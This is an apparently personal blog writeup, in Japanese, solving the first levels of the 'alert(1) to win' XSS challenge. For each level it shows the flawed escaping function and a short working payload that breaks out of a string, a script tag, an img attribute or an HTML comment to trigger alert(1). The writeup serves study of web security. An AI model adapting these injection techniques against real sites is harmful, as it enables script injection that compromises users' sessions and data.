 ```yaml
---
title: alert(1) to win Writeup
date: 2019-01-30
tags: ["XSS", "Writeup"]
excerpt: alert(1) to win Writeup
---
```

# Alert(1) to win
URL：https://alf.nu/alert(1)  
XSS Challengeができるサイトです。  
スコアの高さは文字数と反比例なので、コードゴルフみたいな一面もあります。


# 問題一覧
- [x] [Warmup](#Warmup)
- [x] [Adobe](#Adobe)
- [x] [JSON](#JSON)
- [x] [Markdown](#Markdown)
- [x] [DOM](#DOM) [](#)
- [x] [Callback](#Callback)
- [x] [Skandia](#Skandia)
- [x] [Template](#Template)
- [x] [JSON2](#JSON2)
- [x] [Skandia2](#Skandia2)
- [ ] [iframe](#iframe)
- [ ] [TI(S)M](#TISM)
- [ ] [JSON3](#JSON3)
- [x] [Skandia3](#Skandia3)
- [ ] [RFC4627](#RFC4627)
- [ ] [Well](#Well)
- [x] [No](#No)
- [ ] [K'Z'K](#K'Z'K)
- [ ] [K'Z'K-2](#K'Z'K-2)
- [ ] [K'Z'K-3](#K'Z'K-3)
- [ ] [Fruit](#Fruit)
- [ ] [Fruit2](#Fruit2)
- [ ] [Fruit3](#Fruit3)
- [ ] [Capitals](#Capitals)
- [ ] [Quine](#Quine)
- [ ] [Entities](#Entities)

## Warmup
```Javascript
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```
何のエスケープもない普通の問題です。12文字。
```
");alert(1,"
```

## Adobe
```Javascript
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```
`"`が`\"`にエスケープされます。  
`\"`と入力すると`\\"`となり、文字列として`console.log`を閉じることができます。  
末尾をコメントアウトして、14文字。
```
\");alert(1)//
```
## JSON
```Javascript
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```
`JSON.stringify`を用いたエスケープです。  
一度タグを閉じてから末尾をコメントアウトすると最短。27文字。
```
</script><script>alert(1)//
```

## Markdown
```Javascript
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```
サンプルで用意されている`[[img123|Description]]`をいれると、６行目の置換により
```html
<img alt="Description" src="img123.gif">
```
となります。  
５行目では`http://S+`の形の文字列を`<a>`タグに変換しているため、後半を任意のURLに書き換えることで、以下のように`<img>`タグを閉じることができます。  
例：`Input：[[img123|http://xxx]]`
```html
<img alt="<a href="http://xxx" src="img123.gif">">http://xxx]]</a>
```
開発者ツールでこの部分を検証してみると以下のようになっており、`<img>`タグに`http:`属性と`xxx`属性が付与されたことがわかります。  
![markdown.png](https://github.com/mrypq/boilerplate/blob/master/img/markdown.png)  
htmlにおける`//`が区切り文字となっているためこのようなことが起こります。  
今回は存在しないgifの読み込みエラーが発生するため、`onerror`属性にスクリプトを仕込んだところ発火しました。  
末尾をコメントアウトで排除し、文字数削って31文字。
```
[[x|http://onerror=alert(1)//]]
```

## DOM
```Javascript
function escape(s) {
 // Slightly too lazy to make two input fields.
 // Pass in something like "TextNode#foo"
 var m = s.split(/#/);

 // Only slightly contrived at this point.
 var a = document.createElement('div');
 a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
 return a.innerHTML;
}
```
文字列Sを`#`で区切り、前半を`m[0]`後半を`m[1]`に代入しています。  
DOMの`document.create`から始まるメソッドを調べたところ、`document.createComment()`というメソッドがそれっぽかった。  
>**Document.createComment()**   
新しいコメントノードを生成して、返します。

参照：https://developer.mozilla.org/ja/docs/Web/API/Document  
`Comment#hoge`を入力すると`<!--hoge-->`が出力されるので、文頭のコメントアウトを閉じ、中身を発火させるhtmlに書き換えれば終了。iframeつかって32文字。
```
Comment#><iframe onload=alert(1)
```
Firefoxなどでは`svg/onload`が使えるのでさらに短くなるはずだけど、うまくいきませんでした。何故…。

## 以下随時更新予定
